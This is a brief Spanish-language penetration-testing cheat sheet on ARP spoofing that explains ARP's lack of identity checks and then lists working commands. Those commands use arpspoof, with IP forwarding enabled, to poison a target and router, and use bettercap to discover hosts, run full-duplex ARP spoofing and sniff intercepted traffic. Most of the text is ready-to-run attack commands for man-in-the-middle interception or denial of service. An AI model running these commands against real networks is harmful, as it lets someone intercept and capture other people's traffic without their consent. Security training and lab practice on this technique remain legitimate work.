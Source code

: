 # ARP Spoof

Este tipo de ataques permite enviar paquetes falsificados ARP con el fin de una denegación de servicio o un ataque MITM. Esto es posible debido a que este protocolo no tiene mecanismos de verificación de identidad.



## Explotación

### Arpspoof tool

```bash
echo 1 >  /proc/sys/net/ipv4/ip_forward          # Enable ip forwarding
arpspoof -i ens33 -t <TARGET-IP> -r <ROUTER-IP>  # Telling to the client im the router
arpspoof -i ens33 -t 192.168.1.1  192.168.1.9    # Telling to the router im the client 
```



### Bettercap

```bash
# Turning on bettercap
bettercap -iface <interface> 

# Network discovery
net.probe on/off
net.recon on/off

# Enabling arp-spoof
set arp.spoof.fullduplex true      # Intercep traffic between router and target
set arp.spoof.targets <ip-target>  
arp.spoof on     

# Capture data with bettercap
net.sniff.local on/off    # local machine traffic
net.sniff on/off                 
```

